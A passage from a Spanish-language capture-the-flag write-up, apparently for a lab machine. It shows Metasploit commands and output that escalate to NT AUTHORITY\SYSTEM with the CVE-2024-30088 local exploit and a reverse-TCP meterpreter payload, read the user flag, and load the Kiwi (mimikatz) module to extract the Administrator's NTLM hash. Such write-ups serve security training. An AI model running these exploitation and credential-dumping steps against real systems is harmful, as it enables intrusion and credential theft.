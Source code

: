 Así que vamos a cargarlo y a configurarlo:
```bash
msf exploit(multi/handler) > use exploit/windows/local/cve_2024_30088_authz_basep
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2024_30088_authz_basep) > set SESSION 1
SESSION => 1
msf exploit(windows/local/cve_2024_30088_authz_basep) > set LHOST tun0
LHOST => Tu_IP
msf exploit(windows/local/cve_2024_30088_authz_basep) > set LPORT 4242
LPORT => 4242
msf exploit(windows/local/cve_2024_30088_authz_basep) > set AutoCheck false
AutoCheck => false
msf exploit(windows/local/cve_2024_30088_authz_basep) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
PAYLOAD => windows/x64/meterpreter_reverse_tcp
```
Es muy importante que cambies el payload, ya que si ocupas otro, es posible que tu sesión de **Meterpreter** muera y tendrás que obtener una nueva.

Ejecutemos el Exploit:
```bash
msf exploit(windows/local/cve_2024_30088_authz_basep) > exploit
[*] Started reverse TCP handler on Tu_IP:4242 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Reflectively injecting the DLL into 71776...
[+] The exploit was successful, reading SYSTEM token from memory...
[+] Successfully stole winlogon handle: 788
[+] Successfully retrieved winlogon pid: 588
[*] Meterpreter session 6 opened (Tu_IP:4242 -> 10.10.11.89:59915) at 2025-10-12 16:19:20 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Excelente, ya somos el **Administrador**.

Encontraremos la flag del usuario en el escritorio del **Administrador**:
```bash
meterpreter > shell
Process 1084 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.2113]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type user.txt
type user.txt
...
```
La tenemos.

Y aprovechando esta sesión, obtengamos el **hash NTLM** del **Administrador** con el módulo **Kiwi**.

Carga el módulo **Kiwi**:
```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```
